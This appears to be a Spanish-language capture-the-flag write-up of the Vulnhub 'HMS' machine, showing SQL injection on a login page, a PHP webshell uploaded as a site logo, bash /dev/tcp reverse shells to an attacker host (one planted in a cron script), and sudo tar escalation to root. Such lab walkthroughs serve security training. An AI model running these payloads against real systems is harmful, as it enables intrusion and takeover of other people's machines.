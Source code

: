 ```yaml
---
title: Vulnhub - HMS
author: cotes
date: 2023-10-11 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'SQL Injection', 'File Upload', 'Crontab Abusing']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/HMS/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: HMS Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **SQL Injection, File Upload, Crontab Abusing**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

  ![](/assets/images/Vulnhub/Easy/HMS/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos

* **`nmap -p22,80 -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnhub/Easy/HMS/02-versions.png)

c. Tenemos un panel de login de **Hospital Management System**, como no tenemos credenciales, probaremos una inyección SQL

![](/assets/images/Vulnhub/Easy/HMS/03-sql.png)

> Para que no tengamos problemas en la inyección sql, cambiamos el tipo de input de `email` **->** `text` 💉
{: .prompt-info }

d. Una vez nos autentiquemos, inspeccionamos el código fuente de la página web

![](/assets/images/Vulnhub/Easy/HMS/04-leak.png)

* Si nos dirigimos a **/setting.php** veremos que podemos cambiar la configuración del sitio web, entre ellas, el logo del sitio. Aquí subiremos una webshell en php

  * test.php

    ```php
    <?php system($_GET["cmd"]); ?>
    ```

* Para saber donde se almacena este fichero, analizamos el código fuente de la página

  ![](/assets/images/Vulnhub/Easy/HMS/05-leak.png)

* Ahora nos entablaremos una **reverse shell**: `/uploadImage/Logo/test.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/<IP Host>/<Port>%200%3E%261%22`

  ```bash
  ❯ nc -lvnp 443
  listening on [any] 443 ...
  connect to [192.168.100.70] from (UNKNOWN) [192.168.100.41] 47400
  bash: cannot set terminal process group (1379): Inappropriate ioctl for device
  bash: no job control in this shell
  bash-4.3$
  ```

### Escalada de Privilegios 💹

a. Primero, convertimos la shell en una TTY (Totalmente interactiva)

```bash
bash-4.3$ script /dev/null -c bash
bash-4.3$ ^Z
zsh: suspended  nc -lvnp 443
❯ stty raw -echo;fg
[1]  + continued  nc -lvnp 443
              reset xterm
  [ENTER]

bash-4.3$ export TERM=xterm-256color
bash-4.3$ source /etc/skel/.bashrc 
daemon@nivek:/opt/lampp/htdocs/uploadImage/Logo$
```

b. Buscamos por binarios con permisos SUID

```bash
daemon@nivek:/opt/lampp/htdocs/uploadImage/Logo$ find / -perm -4000 2>/dev/null
<SNIP>
/usr/bin/bash

daemon@nivek:/opt/lampp/htdocs/uploadImage/Logo$ ls -la /usr/bin/bash
-rwsr-xr-x 1 eren eren 1037464 Jul 26  2021 /usr/bin/bash
```

c. Nos transformamos en `eren` y vemos las tareas cron que se ejecutan en el sistema

```bash
bash-4.3$ cat /etc/crontab 
<SNIP>
*/5 * * * * eren /home/eren/backup.sh
```

> La tarea se ejecuta cada **5 minutos**. Podemos alterar el fichero '/home/eren/backup.sh' para enviarnos un reverse shell
{: .prompt-info }



d. Si spawneamos una shell como `eren` veremos que no somos capaces de listar privilegios a nivel de sudoers. Por esta razón, entablamos un reverse shell, a fin de transformarla en una TTY (Totalmente Interactiva).

```bash
bash-4.3$ cat /home/eren/backup.sh
#!/bin/bash
bash -i >& /dev/tcp/<IP Host>/4444 0>&1
<SNIP>
------------------------------------------------
❯ nc -lvnp 4444
eren@nivek:~$ script /dev/null -c bash
eren@nivek:~$ ^Z
zsh: suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + continued  nc -lvnp 4444
              reset xterm
  [ENTER]

eren@nivek:~$ export TERM=xterm-256color
eren@nivek:~$ source /etc/skel/.bashrc 
```

* Listamos nuestros permisos a nivel de sudoers

  ```bash
  eren@nivek:~$ sudo -l
  User eren may run the following commands on nivek:
    (root) NOPASSWD: /bin/tar
  ```

e. Vemos en [**GTFObins**](https://gtfobins.github.io/gtfobins/tar/#sudo) una forma de spawnear una reverse shell

```bash
eren@nivek:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```